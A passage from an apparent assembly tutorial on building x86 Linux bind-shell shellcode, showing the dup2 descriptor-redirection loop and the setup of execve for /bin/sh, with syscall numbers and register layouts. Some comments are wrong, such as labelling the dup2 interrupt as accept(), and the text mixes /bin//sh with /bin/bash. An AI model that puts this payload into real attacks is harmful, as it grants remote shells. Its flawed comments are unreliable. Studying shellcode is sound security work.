 ```console
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
  #define __NR_dup2  63
```   
+ `EBX = int oldfd = clientSocket`
  - Already set with `xchg ebx, eax` after the execution of `accept()`.  
+ `ECX = 2 & 1 & 0 = 0x2 & 0x1 & 0x0`
  - Since we need to do this SYSCAL 3 times, we will use a loop.

```nasm  
 xor eax, eax   ; This sets the EAX Register to NULL (all zeros).
 xor ecx, ecx   ; This sets the ECX Register to NULL (all zeros). 
 mov cl, 0x2    ; This sets the loop counter, and 
                ;  will also be the value of "int newfd" for the 3 dup2 SYSCAL's.
dup2Loop:       ; Procedure label for the dup2 Loop.
 mov al, 0x3f   ; EAX is now 0x0000003F = SYSCALL 63 - dup2
 int 0x80       ; System Call Interrupt 0x80 - Executes accept(). 
                ;   Allowing us to create connected Sockets. 
 dec ecx        ; Decrements ECX by 1 
 jns dup2Loop   ; Jump back to the dup2Loop Procedure until ECX equals 0.
```  

### 7. Spawn a `/bin/sh` shell for the client, in the connected session
#### Default C Function
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```  
#### Our C Function
```c
; execve("/bin//sh", NULL, NULL);
;  EAX      EBX       ECX   EDX
```
The Execve SysCall is used to execute programs on the linux system. In our case, we will execute a shell in the connected socket.  
We will turn to the man pages with command `man 2 execve` to learn more about `execve()`. 
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
+ `EAX = int execve() = 11`
  - System Call Number for `execve`  
```console
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
  #define __NR_execve   11	
```  
+ `EBX = const char *filename = address of string ("/bin/bash" + "0x00")`
  - Pointer to string in memory storing `/bin/bash` + `NULL Terminated` 
  - `NULL Terminated` ends the string `0x00`  
+ `ECX = char *const argv[] = [ memory address of string "/bin/bash", 0x00000000 ]`
  - Array of argument strings passed to the new program.  
  - #1 = Address of `/bin/bash` in memory  
  - #2 = DWORD (32bit) `NULL = 0x00000000`  
+ `EDX =  char *const envp[] = 0x00000000` 
  - Array of strings which are passed as environment variables to the program.


[1]: 1
[1]: 1